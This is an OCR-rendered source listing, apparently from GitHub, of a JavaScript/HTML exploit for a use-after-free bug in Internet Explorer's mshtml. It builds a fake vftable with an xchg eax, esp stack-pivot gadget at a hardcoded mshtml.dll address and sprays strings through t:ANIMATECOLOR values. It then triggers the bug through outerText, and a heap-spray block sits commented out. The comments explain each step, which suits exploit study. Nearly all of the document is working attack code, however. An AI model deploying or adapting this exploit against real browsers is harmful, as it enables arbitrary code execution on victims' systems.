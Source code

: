 ```js
<!DOCTYPE html>
<HTML XMLNS:t ="urn:schemas-microsoft-com:time">
<meta><?IMPORT namespace="t" implementation="#default#time2"></meta>
  <script>

    window.onload = function() {

      // Create the fake vftable of 70 DWORDS (70 "functions")
      vftable = "\u4141\u4141";

      for (i=0; i < 0x70/4; i++)
      {
        // This is where execution will reach when the fake vtable is indexed, because the use-after-free vulnerability is the result of a virtaul function being fetched at [eax+0x70]
        // which is now controlled by our own chunk
        if (i == 0x70/4-1)
        {
          vftable+= unescape("\ua1ea\u74c7");     // ﻿xchg eax, esp ; ret (74c7a1ea) (mshtml.dll) Get control of the stack
        }
        else
        {
          vftable+= unescape("\u4141\u4141");
        }
      }

      // This creates an array of strings that get pointers created to them by the values property of t:ANIMATECOLOR (so technically these will become an array of pointers to strings)
      // Just make sure that the strings are semicolon seperated (the first element, which is our fake vftable, doesn't need to be prepended with a semicolon)
      // The first pointer in this array of pointers is a pointer to the fake vftable, constructed with the above for loops. Each ";vftable" string is prepended to the longer 0x70 byte fake vftable, which is the first pointer/DWORD
      for(i=0; i<25; i++)
      {
        vftable += ";vftable";
      }

      // Trigger the UAF
      var x  = document.getElementById("a");
      x.outerText = "";

      /*
      // Create a string that will eventually have 104 non-unicode bytes
      var fillAlloc = "\u4141\u4141";

      // Strings in JavaScript are in unicode
      // \u unescapes characters to make them non-unicode
      // Each string is also appended with a NULL byte
      // We already have 4 bytes from the fillAlloc definition. Appending 100 more bytes, 1 DWORD (4 bytes) at a time, compensating for the last NULL byte
      for (i=0; i < 100/4-1; i++)
      {
        fillAlloc += "\u4242\u4242";
      }

      // Create an array and add it as an element
      // https://www.corelan.be/index.php/2013/02/19/deps-precise-heap-spray-on-firefox-and-ie10/
      // DOM elements can be created with a property set to the payload
      var newElement = document.createElement('img');
      newElement.title = fillAlloc;
      */

```